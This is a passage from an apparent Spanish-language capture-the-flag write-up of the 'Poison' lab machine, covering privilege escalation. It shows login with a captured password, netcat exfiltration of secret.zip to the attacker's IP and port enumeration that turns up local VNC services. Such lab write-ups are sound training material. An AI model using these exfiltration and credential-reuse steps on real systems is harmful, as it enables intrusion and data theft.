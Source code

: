```
$ which su
/usr/bin/su
$ su charix
Password:Charix!2#4%6&8(0
whoami
charix
```
## Privilege Escalation

En el directorio `/home` de `charix` me he encontrado un `.zip` interesante

```
charix@Poison:~ % ls
secret.zip	user.txt
```

Vamos a `transferirnos` el `archivo` a nuestra máquina con `netcat`, para ello nos ponemos en `escucha` en nuestra máquina

```
# nc -nlvp 4444 > secret.zip
```

Nos `enviamos` el `archivo` desde la máquina víctima

```
charix@Poison:~ % nc -vn 10.10.16.35 4444 < secret.zip
```

Una vez recibido el archivo lo `descomprimimos`, la contraseña a usar es `Charix!2#4%6&8(0`

```
# unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
```

Si le hacemos un `cat` al `archivo` nos encontramos con esto

```
# cat secret                                    
───────┬────────────────────────────────────────────────────────────────────────────────
       │ File: secret
───────┼────────────────────────────────────────────────────────────────────────────────
   1   │ ��[|Ֆz!
───────┴────────────────────────────────────────────────────────────────────────────────
```

`Listamos puertos` en la máquina víctima, los puertos `5801` y `5901` son interesantes porque pertenecen al servicio `VNC` [https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc](https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc)
```
charix@Poison:~ % netstat -na -p tcp
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.129.252.206.22      10.10.16.35.36790      ESTABLISHED
tcp4       0      0 10.129.252.206.17310   10.10.16.35.4444       ESTABLISHED
tcp4       0      0 10.129.252.206.80      10.10.16.35.38414      ESTABLISHED
tcp4       0      0 10.129.252.206.18527   10.10.16.35.4444       CLOSE_WAIT
tcp4       0      0 10.129.252.206.80      10.10.16.35.55736      CLOSE_WAIT
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```
